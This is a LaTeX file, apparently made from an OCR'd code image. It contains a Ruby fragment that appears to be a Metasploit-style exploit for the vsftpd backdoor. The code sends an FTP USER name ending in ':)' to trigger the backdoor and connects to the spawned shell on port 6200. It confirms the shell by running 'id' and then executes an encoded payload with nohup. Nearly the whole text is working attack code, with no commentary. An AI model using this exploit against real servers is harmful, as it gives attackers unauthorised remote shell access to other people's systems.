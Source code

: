 \documentclass[10pt,a4paper]{report}
\begin{document}
\begin{lstlisting}
sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
resp = sock.get_once(-1, 30).to_s
print_status("USER: #{resp.strip}")

if resp =~ /^530 /
print_error("This server is configured for anonymous only and the backdoor code 
cannot be reached")
disconnect
return
end

if resp !~ /^331 /
print_error("This server did not respond as expected: #{resp.strip}")
disconnect
return
end

sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")

# Do not bother reading the response from password, just try the backdoor
nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
if nsock
print_good("Backdoor service has been spawned, handling...")
handle_backdoor(nsock)
return
end

disconnect

end

def handle_backdoor(s)

s.put("id\n")

r = s.get_once(-1, 5).to_s
if r !~ /uid=/
print_error("The service on port 6200 does not appear to be a shell")
disconnect(s)
return
end

print_good("UID: #{r.strip}")

s.put("nohup " + payload.encoded + " >/dev/null 2>&1")
handler(s)
end

end
			\end{lstlisting}
			
\end{document}
